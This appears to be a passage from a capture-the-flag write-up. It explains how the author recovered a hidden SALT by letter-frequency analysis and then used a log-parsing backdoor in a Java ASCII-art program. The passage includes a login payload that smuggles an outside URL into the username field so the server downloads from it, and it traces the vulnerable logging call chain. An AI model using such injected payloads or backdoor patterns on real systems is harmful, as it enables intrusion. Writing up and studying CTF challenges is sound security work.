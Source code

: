 However, the hardest part remains: finding the SALT in order to match the following pattern and reach the backdoor

```java
"get\\{.*\\}salt=" + System.getenv("SALT")
```
  
## Step 3 : Find SALT

This is the longest part and where you had to guess how the **SALT** was generated. After long hours of research and reading each line of code, two lines of code caught my attention because they were outside the logic of variable naming encountered so far :

```java
// Art.java line 17
public void printTextArt(String artText, int textHeight, ASCIIArtFont fontType, String artSymbol) throws Exception {
        String frequency = fontType.getValue();
        int analysis_should_be_fun = this.findImageWidth(textHeight, artText, frequency);
        
        [...]
```

"frequency analysis_should_be_fun". 

Despairing, I say to myself that it would not be impossible for the **SALT** to be for each letter, the one that appears the most respectively in the 8 paragraphs *(because the challenge index indicated that there were 8 letters in the SALT)*

So after calculating the frequency of appearance (respecting the case) of the letters in each paragraph, the following **SALT** is obtained:

<pre>oeeeeooo</pre>

We now have everything we need to run the backdoor


## Step 4 : Use backdoor inside source code

For this step we just have to login with the following payload for the **username** or **password**

<pre>get{https://XXXXXXXXX.x.pipedream.net}salt=oeeeeooo</pre>

When authenticating, this is what will happen: 

- Our username will be concatenated with text for the log files

<pre>maliciousInput=[...]get{https://XXXXXXXXX.x.pipedream.net}salt=oeeeeooo[...]</pre>

- The execution chain will be as follows:

this.logger.info(**maliciousInput**) => this.writeToLogfile(**maliciousInput**) => this.analyzeMessage(**maliciousInput**)


- analyzeMessage(**maliciousInput**) will match the following pattern and extract what is between { and } and send it as a parameter to the downloadFile() function :

```java
"get\\{.*\\}salt=" + System.getenv("SALT")
```
